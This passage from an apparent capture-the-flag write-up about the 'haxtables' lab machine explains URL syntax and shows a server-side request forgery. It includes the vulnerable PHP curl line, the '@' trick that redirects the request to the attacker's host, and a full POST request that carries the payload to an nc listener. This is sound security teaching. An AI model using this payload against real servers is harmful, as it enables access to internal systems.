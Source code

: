 So a URL can look like:

```

[scheme]://[authority][path-abempty]

```

For this case, `scheme` is `http`. `authority` is the `host`, but it can have an optional `:[port]` after it, and an optional `[userinfo]@` before it. `path-abempty` is either empty or starts with `/`.

#### SSRF

In the `make_api_call` function, it takes user input to build a URL that is passed to `curl`:

```

$url = 'http://api.haxtables.htb' . $uri_path . '/index.php';

```

It’s clear that this can be any path on `api.haxtables.htb` that ends with `/index.php`. But because there’s no `/` between `.htb` and the user input, I can actually use this to reach other servers as well by adding an `@` symbol.

If I send `@10.10.14.6` as the `$uri_path`, then `$url` will be:

```

http://api.hacktables.htb@10.10.14.6/index.php

```

I’ll send the POST request to `haxtables.htb/handler.php` into Burp Repeater and update the `uri_path`:

```

POST /handler.php HTTP/1.1
Host: haxtables.htb
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json;charset=UTF-8
Content-Length: 69
Origin: http://10.10.11.198
Connection: close
Referer: http://10.10.11.198/index.php?page=string

{"action":"md5","data":"0xdf was here","uri_path":"@10.10.14.6"}

```

I’ll start `nc` listening on 80 and on sending the above request, there’s a request at `nc` from Encoding:
